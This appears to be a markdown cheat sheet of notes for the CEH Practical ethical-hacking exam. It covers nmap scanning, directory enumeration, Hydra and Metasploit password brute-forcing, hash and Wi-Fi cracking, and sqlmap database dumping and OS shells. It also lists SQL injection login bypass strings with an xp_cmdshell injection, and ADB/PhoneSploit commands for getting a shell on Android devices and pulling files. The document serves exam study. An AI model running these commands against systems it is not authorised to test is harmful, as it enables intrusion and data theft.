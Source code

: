 Reference: 
https://github.com/DarkLycn1976/CEH-Practical-Notes-and-Tools
https://github.com/hunterxxx/CEH-v12-Practical
https://medium.com/@abdulmajidjamil/ceh-practical-lpt-master-ctf-notes-in-general-d0cb7007dacd
https://immpetus.gitbook.io/ceh-practical/nmap-tool

# Scanning

  
<details>
  <summary>Netdiscover</summary>





## Netdiscover 
  
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
 </details> 

<details>
  <summary>Nmap</summary>

 * NMAP Scripts
```console
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

 * Certain port scans
```console
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10
```

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```

</details>

# If have web service, try enumerate:
<details>
  <summary>Gobuster</summary>
  
```shell
gobuster -e -u http://10.10.10.10 -w wordlsit.txt
```
</details>

<details>
  <summary>Dirb</summary>

Look for subdirectories
```shell
gobuster vhost -v -w /home/username/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://workers.htb -o vhosts.txt --append-domain

> if you don't "--append-domain", you might not find anything
```
</details>


# Credential / Password Attacks
<details>
   <summary>Bruteforce SMB</summary>

* SMB Cracking with Hydra
  
```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```
* SMB Cracking with Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
</details>


  </details>

<details>
  <summary>Bruteforce SSH</summary>
  
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
</details>

<details>
  <summary>Bruteforce TELNET</summary>
  
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
</details>

<details>
  <summary>Bruteforce FTP</summary>

```console
    TRY user "annoymous" + no password
  ```
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


```
</details>

<details>
 <summary>Password Cracking - John</summary>

```console
john --single --format=md5crypt crack.txt
```
</details>

<details>
 <summary>Password Cracking - Hashcat</summary>

```console
Hashcat
```
</details>

<details>
 <summary>Password Cracking - WIFI Encryption </summary>

```console
aircrack-ng -w rockyou.txt capture-01.cap
```

</details>





# Vulnerability Scanning 

<details>
  <summary>Nessus</summary>
  
```console
Nessus runs on https[:]//localhost[:]8834
```
</details>

<details>
  <summary>Nikto</summary>
  
```console
nikto -h 
```
</details>

# Hidden text

<details>
  <summary>Snow</summary>
  
```console
snow -C -p "magic" readme2.txt
```
</details>

<details>
<summary>Steghide</summary>

```console
```
</details>




# WIRESHARK
<details>

  ```shell
    select_packet > follow > TCP Stream
  ```
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS, go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
View Flood attack on victim via Wireshark 
```console
•	| use filter tcp.port=21 
 ```
https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
</details>



# SQL

<details>

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

Other SQLi
```shell
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```


SQLMAP

```shell
* For finding DBs:
sqlmap -u "------/id=1" --dbs --batch
sqlmap -u "https://bliss-hotel.000webhostapp.com/room_details.php?room_type_id=RM101" --dbs --batch

* Find DBs 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

* Find Tables =
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

* Find columns = 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

* Dump table =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

* Dump the DB =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch

* Using cookies : 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

* manual SQL Injection
in login page enter blah' or 1=1-- as username and click login without entering the password

* GET access of OS Shell = 
sqlmap -u 'url' --dbms=mysql --os-shell SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell
```

</details>
</details>





# VERACRYPT 


# CUSTOM WORDLIST 

<details>
<summary>Cewl</summary>
  
* cewl is the tool, example.com is the site, -m is to specify the minimum length of the word , -w is to specify the output file
  
```console
cewl example.com -m 5 -w words.txt
```
</details>



# MOBILE 

<details>
  <summary>ADB</summary>
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>

<details>
  <summary>PhoneSploit</summary>
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>




# resources 

* https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
* https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

